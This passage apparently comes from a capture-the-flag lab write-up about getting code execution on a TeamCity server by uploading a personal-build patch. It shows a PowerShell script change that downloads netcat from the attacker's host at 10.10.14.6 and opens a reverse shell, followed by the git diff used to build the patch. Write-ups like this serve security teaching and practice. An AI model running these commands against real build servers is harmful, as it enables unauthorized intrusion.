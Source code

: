The “run as personal build” option is documented
[here](https://www.jetbrains.com/help/teamcity/2022.10/personal-build.html):

> A _personal build_ is a build-out of the common build sequence which
> typically uses the changes not yet committed into the version control.
> Personal builds are usually initiated from one of the [supported
> IDEs](https://www.jetbrains.com/help/teamcity/2022.10/supported-platforms-
> and-environments.html#Remote+Run+and+Pre-tested+Commit) via the [Remote
> Run](https://www.jetbrains.com/help/teamcity/2022.10/remote-run.html)
> procedure. You can also upload a patch with changes directly to the server,
> as described
> [below](https://www.jetbrains.com/help/teamcity/2022.10/personal-
> build.html#Direct+Patch+Upload).

#### RCE

I don’t have write access to the SMB share, so I can’t change the repo
contents there. However, I can use the personal build option to upload a diff
file to effectively make changes to the repo that way.

I’ll create a dummy repo and add `hello_world.ps1`:

    
    
    oxdf@hacky$ mkdir ~/repo
    oxdf@hacky$ cp hello_world.ps1 ~/repo/
    oxdf@hacky$ cd ~/repo/
    oxdf@hacky$ git init
    Initialized empty Git repository in /home/oxdf/repo/.git/
    oxdf@hacky$ git add hello_world.ps1 
    oxdf@hacky$ git commit -m "as on coder"
    [main (root-commit) 42bd623] as on coder
     1 file changed, 2 insertions(+)
     create mode 100755 hello_world.ps1
    

I’ll update `hello_world.ps1` to include commands to fetch netcat from my
server and return a reverse shell:

    
    
    #Simple repo test for Teamcity pipeline
    write-host "Hello, World!"
    
    iwr http://10.10.14.6/nc64.exe -outfile \ProgramData\nc64.exe
    \ProgramData\nc64.exe -e powershell 10.10.14.6 443
    

Running `git diff` shows the diff output for this vs what’s already committed:

    
    
    oxdf@hacky$ git diff
    diff --git a/hello_world.ps1 b/hello_world.ps1
    index 09724d2..6cd6d20 100755
    --- a/hello_world.ps1
    +++ b/hello_world.ps1
    @@ -1,2 +1,5 @@
     #Simple repo test for Teamcity pipeline
     write-host "Hello, World!"
    +
    +iwr http://10.10.14.6/nc64.exe -outfile \ProgramData\nc64.exe
    +\ProgramData\nc64.exe -e powershell 10.10.14.6 443
    oxdf@hacky$ git diff > shell.diff
    
